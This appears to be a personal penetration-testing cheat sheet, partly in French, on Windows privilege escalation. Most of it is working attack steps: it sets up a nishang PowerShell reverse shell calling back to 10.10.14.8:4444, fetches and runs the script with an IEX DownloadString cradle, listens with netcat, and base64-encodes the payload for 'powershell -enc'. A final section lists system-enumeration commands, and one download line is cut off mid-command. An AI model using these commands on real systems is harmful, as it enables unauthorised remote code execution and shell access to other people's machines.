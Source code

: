
# Privilege escalation


Read : https://github.com/AlessandroZ/BeRoot/tree/master/Windows


## Remote shell

    https://github.com/samratashok/nishang

    wget https://github.com/samratashok/nishang/archive/master.zip
    unzip master.zip 
    mv nishang-master/ /opt/nishang
    cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
    mv Invoke-PowerShellTcp.ps1 reverse.ps1

Editer avec vi, et coller à la fin:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 4444

    python -m simpleHTTPServer
    powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8:8000/reverse.ps1')
    nc -lvp 4444
    
Encoder base64

    cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
    powershell -enc xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    

## Test l'accès au powershell

    powershell -Command "$PSVersionTable.PSVersion"
    powershell IEX (New-Object Net.WebClient).DownloadString(  

## Get System info
````
> systeminfo | findstr /B /C:"Name" /C:"Version"
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600

> ver
Microsoft Windows [version 10.0.18362.295]

> wmic os get Caption, CSDVersion /value
Caption=Microsoft Windows 10 Professionnel
CSDVersion=
````

Version found in Licenses files
````
type c:\windows\system32\license.rtf 
c:\windows\system32\licenses\*
c:\windows\system32\eula.txt
````
